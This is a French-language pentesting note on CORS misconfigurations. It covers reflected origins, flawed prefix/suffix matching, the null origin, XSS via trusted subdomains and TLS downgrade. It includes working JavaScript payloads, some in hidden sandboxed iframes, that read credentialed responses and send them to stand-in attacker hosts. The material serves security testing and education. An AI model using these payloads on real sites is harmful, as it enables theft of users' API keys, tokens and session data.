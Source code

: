 # Cross-origin resource sharing (CORS)

Partage de ressources multi-origines ou partage de ressources d'origine croisée.

- [Same-origin policy (SOP)](./Same-origin%20policy.md)

- [CORS and the Access-Control-Allow-Origin response header](./CORS%20and%20the%20Access-Control-Allow-Origin%20response%20header.md)

- [Vérifications avant vol](./Vérifications%20avant%20vol.md)

# Vulnerabilities

**Black-Box Testing**

1. Map the application
2. Test the application for dynamic generation
	- Does it reflect the user-supplied ACAO header ?
	- Does it only validate on the start/end of a specific string ?
	- Does it allow the null origin ?
	- Does it restrict the protocol ?
	- Does it allow credential ?
3. One you have determined that a CORS vulnerability exist review the application's functionnality to determine how you can prove impact.

**Un serveur Web cible est vulnérable aux attaques CORS si :**

```sh
# request
Origin: https://attacker-website.com
```
Pour déterminer si CORS est activé, recherchez les en-têtes commençant par `Access-Control-Allowed` dans les en-têtes de réponse.

```sh
# response
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: https://attacker-website.com
Access-Control-Allow-Credentials: true
```

**Les vulnérabilités possibles:**

## 1. Server-generated ACAO header from client-specified Origin header
Certaines applications doivent donner accès à un certain nombre d'autres domaines.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Ces en-têtes indiquent que l'accès est autorisé à partir du domaine demandeur ( `malicious-website.com`) et que les requêtes cross-origin peuvent inclure des cookies ( `Access-Control-Allow-Credentials: true`) et sera donc traité en session. 

> **Parce que l'application reflète des origines arbitraires dans l'en-tête `Access-Control-Allow-Origin` , cela signifie qu'absolument n'importe quel domaine peut accéder aux ressources du domaine vulnérable**

Si la réponse contient des informations sensibles telles qu'une clé API ou un jeton CSRF, vous pouvez les récupérer en plaçant le script suivant sur votre site Web : 

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	};
</script>
```

Now visite the attacker web site `https://malicious-website.com/`


## 2. Errors parsing Origin headers
Erreurs lors de l'analyse des en-têtes Origin

Des règles sont souvent implémentées en faisant correspondre les `préfixes` ou `suffixes` d'URL

Par exemple, supposons qu'une application accorde l'accès à tous les domaines se terminant par : `normal-website.com`

- Un attaquant pourrait pouvoir accéder en enregistrant le domaine : `hackersnormal-website.com`

Alternativement, supposons qu'une application accorde l'accès à tous les domaines commençant par `normal-website.com`

- Un attaquant pourrait être en mesure d'accéder à l'aide du domaine : `normal-website.com.evil-user.net`

## 3. Whitelisted null origin value

Les navigateurs peuvent envoyer la valeur `Origin: null` dans l'en-tête.

Certaines applications peuvent mettre sur liste blanche l'`Origin: null` pour accompagner le développement local de l’application.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant peut générer une requête cross-origin contenant la valeur null dans l’en-tête Origine. Cela satisfera la liste blanche, conduisant à un accès inter-domaines.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
	};
</script>">
</iframe>
```

```html
<iframe style="display: none;" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var xhr = new XMLHttpRequest();
    var target_url = 'https://vulnerable-website.com/sensitive-victim-data';
    xhr.onreadystatechange = () => {
        if(xhr.readyState == XMLHttpRequest.DONE){
            fetch('http://attacker-server:4444/log?key=' + xhr.responseText);
        }
    };
    xhr.open('GET', target_url, true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>"></iframe>
```

## 4. Exploiting XSS via CORS trust relationships
> Même CORS « correctement » configuré établit une relation de confiance entre deux origines.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Un attaquant qui trouve une vulnérabilité XSS sur `subdomain.vulnerable-website.com` pourrait l'utiliser pour récupérer la clé API, en utilisant une URL telle que:

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## 5. Breaking TLS with poorly configured CORS

Supposons qu'une application qui utilise rigoureusement HTTPS mette également sur liste blanche un sous-domaine approuvé qui utilise HTTP simple.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant capable d'intercepter le trafic d'un utilisateur victime et exploiter la configuration CORS pour compromettre l'interaction de la victime avec l'application avec les étapes suivantes :


1. L'utilisateur victime effectue une requête HTTP simple.

2. L'attaquant injecte une redirection vers :

```
http://trusted-subdomain.vulnerable-website.com
```

3. Le navigateur de la victime suit la redirection.

4. L'attaquant intercepte la requête HTTP simple et renvoie une réponse usurpée contenant une requête CORS à:

```
https://vulnerable-website.com
```

5. Le navigateur de la victime fait la requête CORS, en incluant l'origine :

```
http://trusted-subdomain.vulnerable-website.com
```

6. L'application autorise la demande car il s'agit d'une origine sur liste blanche . Les données sensibles demandées sont renvoyées dans la réponse.

7. La page usurpée de l'attaquant peut lire les données sensibles et les transmettre à n'importe quel domaine sous le contrôle de l'attaquant.

> Cette attaque est efficace car même si le site utilise des mesures de sécurité comme HTTPS, n'accepte pas de connexions HTTP, et protège bien les cookies, l'attaque peut quand même réussir. 

